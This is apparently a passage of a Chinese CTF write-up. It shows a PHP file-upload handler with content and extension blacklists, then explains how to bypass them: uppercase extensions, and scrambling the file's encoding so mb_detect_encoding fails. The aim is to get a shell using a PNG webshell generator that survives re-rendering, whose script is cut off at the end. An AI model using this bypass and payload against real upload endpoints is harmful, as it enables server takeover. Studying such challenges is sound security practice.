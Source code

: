 ```php
                if($charset == "BASE64"){
                    $content = base64_decode($content);
                }
                foreach ($this->content_blacklist as $v) {
                    if(stristr($content, $v)!==false){
                        return $this->invalid("fucking $v .");
                    }
                }
            }else{
                return $this->invalid("fucking invalid format.");
            }
            $ext = Path::getExtension($file["name"], true);
            if(strstr($file["name"], "..")!==false){
                return $this->$this->invalid("fucking path travel");
            }
            foreach ($this->ext_blacklist as $v){
                if (strstr($ext, $v) !== false){
                    return $this->invalid("fucking $ext extension.");
                }
            }
            $dir = dirname($request->server->get('SCRIPT_FILENAME'));

            $result = move_uploaded_file($file["tmp_name"], "$dir/upload/".strtolower($file["name"]));
            if($result){
                return new Response("upload success");
            }else {
                return new Response("upload failed");
            }
        }
    }
}
```

首先因为后缀最后传入了 strtolower, 在前面可以用大小写绕过检测

其次程序会有个 charset 的判断, 如果 `mb_detect_encoding` 的结果不为空, 就会对文件内容进行判断

查阅 PHP 手册得知 `mb_detect_encoding` 遇到无法辨别的 charset 会返回 false

于是思路就是通过打乱上传文件内容的编码来 getshell

我这边用的是 png 绕过二次渲染的图片马

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
```